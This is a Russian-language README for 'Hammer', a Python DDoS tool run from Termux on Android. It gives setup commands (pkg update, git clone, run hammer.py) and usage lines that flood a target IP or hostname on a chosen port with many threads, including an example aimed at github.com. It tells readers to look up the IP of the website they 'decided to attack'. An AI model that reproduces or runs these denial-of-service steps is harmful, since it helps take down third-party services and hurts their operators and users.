 # Hammer
Инструмент для проведения DDoS-атани при помощи Termux.

    Termux - Эмулятор терминала для Андроид устройств.

*Что такое DDoS-атака?*
Это распределённая атака типа "отказ в обслуживании" - это метод при котором специалисты в области кибербезопасности заполняют сеть большим количеством трафика, до такой степени, что информационная система перестают работать или обмениваться данными, как обычно. Всё, что требуется для создания DDoS-атаки, - это два устройства, которые поординируют отправку поддельного трафика на сервер или веб-сайт. 

# Что такое DDoS атака и для чего используется
Distributed Denial Of Service (DDoS)- распределённая атака типа "отказ в обслуживании". DDoS-атака выполняется с нескольких онлайн-устройст, известных как "ботнет", которые используются для перегрузки целевого веб-сайта, посредством осуществления множественных запросов к целевому ресурсу.

# инструмент для ddos атаки
*Hammer*

Hammer требует 'Имя Сервера' веб-сайта, который вы решили атаковать...
Для того, чтобы получить имя сервера, просто введите: 
* $ nslookup example.com

Обратите внимание на IP-адрес веб-сайта

> cd Hammer

> python hammer.py -s [IP-адрес] -p 80 -t 135

> Пример: python hammer.py -s 123.45.102.1 -p 80 -t 135


# Инструкция по применению
```pkg update && pkg upgrade

git clone https://github.com/EpluribusNEO/Hammer.git

cd Hammer

python hammer.py
```
# Как использовать:
> python hammer.py -s [IP адрес] -t 135

#### Пример: 
* python hammer.py -s 127.0.0.1 -p 80 -t 135
* python hammer.py -s github.com -p 443 -t 135

